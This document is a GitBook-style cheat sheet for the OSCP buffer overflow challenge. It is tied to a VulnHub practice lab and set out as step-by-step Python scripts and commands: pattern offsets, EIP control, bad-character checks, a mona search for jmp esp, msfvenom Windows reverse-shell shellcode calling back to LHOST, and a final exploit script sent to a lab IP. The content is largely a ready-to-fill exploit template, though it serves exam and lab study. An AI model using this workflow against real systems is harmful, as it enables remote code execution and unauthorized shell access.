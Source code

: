 # OSCP BOF

All you need to know about OSCP BOF challenge. A perfect example for practice – [here](https://www.vulnhub.com/entry/brainpan-1,51/) on VulnHub, report sample – [here](https://github.com/chvancooten/OSCP-MarkdownReportingTemplates/blob/master/Examples/Example%20Report.pdf).




## 1. Determine EIP Offset

Generate unique pattern and feed it to the application:

```
$ msf-pattern_create -l 5000
$ python3 bof_send_pattern.py
```

{% code title="bof_send_pattern.py" %}
```python
#!/usr/bin/env python3
# bof_send_pattern.py

import socket

buf = b'<UNIQUE_PATTERN>'
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```
{% endcode %}

Calculate the offset from buffer to EIP overwrite point:

```
$ msf-pattern_offset -l 5000 -q <EIP_VALUE>
[*] Exact match at offset <EIP_OFFSET>
```




## 2. Confirm BOF

Confirm that you actually can control EIP value - if true it will be overwritten with `D34DC0D3`:

```
$ python3 bof_confirm.py
```

{% code title="bof_confirm.py" %}
```python
#!/usr/bin/env python3
# bof_confirm.py

import socket
import struct

def little_endian(num):
	return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 16

buf = junk + eip + offset
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```
{% endcode %}




## 3. Enumerate Bad Characters

Send all the byte values to the application. Then in [Immunity Debugger](https://www.immunityinc.com/products/debugger/) right click on ESP > "Follow in Dump", and check what characters are missing or misinterpreted - they are the **bad characters** that should be excluded when generating the shellcode:

```
$ python3 bof_bad_chars.py
```

{% code title="bof_bad_chars.py" %}
```python
#!/usr/bin/env python3
# bof_bad_chars.py

import socket
import struct

def little_endian(num):
	return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 4

badchars = b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
#badchars = '\x00'

buf = junk + eip + offset + badchars
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```
{% endcode %}




## 4. Build the Exploit



### I. Find a Return Address

List all loaded libraries in process memory space with [mona](https://github.com/corelan/mona):

```
!mona modules
```

Choose a module with no memory protections enabled.

Look for `jmp esp` instruction in that module:

```
$ msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
Or
nasm > call esp
00000000  FFD4              call esp

!mona find -s "\xff\xe4" -m "application.exe"
```

Found pointer is the needed value for EIP to force the execution flow into malicious shellcode.



### II. Generate a Shellcode

Build a shellcode providing bad characters set from (3):

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f python -b "\x00"
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f python -e x86/shikata_ga_nai -b "\x00"
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f python -e x86/shikata_ga_nai -b "\x00"
```




## 5. Exploit!

Start nc listener, feed the shellcode to the application and catch your shell:

```
$ python3 bof_exploit.py
```

{% code title="bof_exploit.py" %}
```python
#!/usr/bin/env python3
# bof_exploit.py

import socket
import struct

def little_endian(num):
	return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 4
nops = b'\x90' * 10

buf = junk + eip + offset + nops
buf += b"<SHELLCODE>"
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```
{% endcode %}
